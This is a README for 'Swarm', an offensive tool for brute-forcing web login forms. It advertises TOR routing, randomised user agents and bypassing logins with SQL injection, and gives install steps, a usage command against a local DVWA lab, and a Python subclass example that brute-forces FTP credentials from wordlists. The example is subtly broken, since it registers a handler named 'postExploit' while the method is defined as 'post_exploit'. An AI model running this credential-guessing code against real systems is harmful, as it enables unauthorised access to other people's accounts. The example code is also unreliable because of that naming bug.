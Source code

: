 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)


        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success


        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
		# Must call parent object's setup
                Hive.setup(self)

	# function: post_exploit
	# param: credential 	- Must take a credential object
	# description: Example of a post_exploit handle, you must use set it via: self.setOnSuccessHandle(self.post_exploit)
	def post_exploit(self,credential):
		# -------- Do Something ----------
		# Such as display a custom login message
		# Store credentials in a Database, etc.
		exit()	

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'			# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'			# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'			# the password file to use
ftp_bruteforce.verbose = True					# verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.postExploit)	# Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()						# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)				# starts the bruteforcing task
```


